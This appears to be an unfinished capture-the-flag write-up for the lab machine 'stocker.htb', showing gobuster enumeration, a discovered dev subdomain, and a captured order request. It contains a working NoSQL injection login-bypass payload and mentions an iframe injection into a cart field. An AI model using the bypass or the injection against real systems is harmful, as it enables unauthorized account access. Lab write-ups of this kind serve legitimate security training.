

ping 10.10.11.196

gobuster dir -u http://stocker.htb -w /usr/share/wordlists/dirbuster/directory-list-2/3-medium.txt -t 50


PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

```
└─$ gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u stocker.htb -t 50 --append-domain 
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://stocker.htb
[+] Method:          GET
[+] Threads:         50
[+] Wordlist:        /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:      gobuster/3.5
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
2023/06/20 02:36:15 Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.stocker.htb Status: 302 [Size: 28] [--> /login]
Progress: 4976 / 4990 (99.72%)
===============================================================
2023/06/20 02:36:46 Finished
```



we got a page.
getting the login req


things to do - sqlmap and hydra
sqlmap did not work
hydra will be used as last resort

but on sending a json file 
with contetn type application/json
and follwoing paramters
`{"username":{"$ne":"admin"}, "password":{"$ne":"pass"}}`

we got a response back as

`Found. Redirecting to <a href="/stock">`


we got 

```
POST /api/order HTTP/1.1
Host: dev.stocker.htb
Content-Length: 629
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://dev.stocker.htb
Referer: http://dev.stocker.htb/stock
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: connect.sid=s%3Ai_AUVSci1pzGB1WsvBX2VdC-qIX4Wptk.YPLO7UnVGBENiyiZRKjUGFPKNbr%2FUfpMQ0r25%2FlfpfE
Connection: close

{"basket":[{"_id":"638f116eeb060210cbd83a91","title":"Axe","description":"It's an axe.","image":"axe.jpg","price":12,"currentStock":21,"__v":0,"amount":1},{"_id":"638f116eeb060210cbd83a8f","title":"Bin","description":"It's a rubbish bin.","image":"bin.jpg","price":76,"currentStock":15,"__v":0,"amount":1},{"_id":"638f116eeb060210cbd83a8d","title":"Cup","description":"It's a red cup.","image":"red-cup.jpg","price":32,"currentStock":4,"__v":0,"amount":1},{"_id":"638f116eeb060210cbd83a93","title":"Toilet Paper","description":"It's toilet paper.","image":"toilet-paper.jpg","price":0.69,"currentStock":4212,"__v":0,"amount":1}]}
```

on submission of the kart items

when we change thte title field and ad dan iframe to it
it shows 


